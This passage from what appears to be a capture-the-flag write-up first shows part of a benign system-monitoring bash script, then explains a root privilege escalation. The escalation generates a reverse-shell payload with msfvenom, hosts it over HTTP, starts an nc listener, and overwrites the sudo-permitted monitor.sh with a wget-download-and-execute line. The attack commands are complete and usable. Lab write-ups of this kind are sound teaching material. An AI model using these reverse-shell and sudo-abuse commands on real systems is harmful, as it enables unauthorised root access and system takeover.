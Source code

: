 ```bash
nameservers=$(cat /etc/resolv.conf | sed '1 d' | awk '{print $2}')
echo -e '\E[32m'"Name Servers :" $tecreset $nameservers

# Check Logged In Users
who>/tmp/who
echo -e '\E[32m'"Logged In users :" $tecreset && cat /tmp/who

# Check RAM and SWAP Usages
free -h | grep -v + > /tmp/ramcache
echo -e '\E[32m'"Ram Usages :" $tecreset
cat /tmp/ramcache | grep -v "Swap"
echo -e '\E[32m'"Swap Usages :" $tecreset
cat /tmp/ramcache | grep -v "Mem"

# Check Disk Usages
df -h| grep 'Filesystem\|/dev/sda*' > /tmp/diskusage
echo -e '\E[32m'"Disk Usages :" $tecreset
cat /tmp/diskusage

# Check Load Average
loadaverage=$(top -n 1 -b | grep "load average:" | awk '{print $10 $11 $12}')
echo -e '\E[32m'"Load Average :" $tecreset $loadaverage

# Check System Uptime
tecuptime=$(uptime | awk '{print $3,$4}' | cut -f1 -d,)
echo -e '\E[32m'"System Uptime Days/(HH:MM) :" $tecreset $tecuptime

# Unset Variables
unset tecreset os architecture kernelrelease internalip externalip nameserver loadaverage

# Remove Temporary Files
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
```

However, none of this content really matters since Sudo allows for the current user to run this file as `root`. Simply make another reverse shell payload and have the target download and execute it as `root` through `personal/stuff/monitor.sh`:

```bash
# generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=7777 \
         -f elf \
         -o bubba.root.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 7777
# download & execute payload through web shell
echo 'wget -O /tmp/bubba.root.elf http://10.10.14.27/bubba.root.elf && chmod +x /tmp/bubba.root.elf && /tmp/bubba.root.elf' > /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```

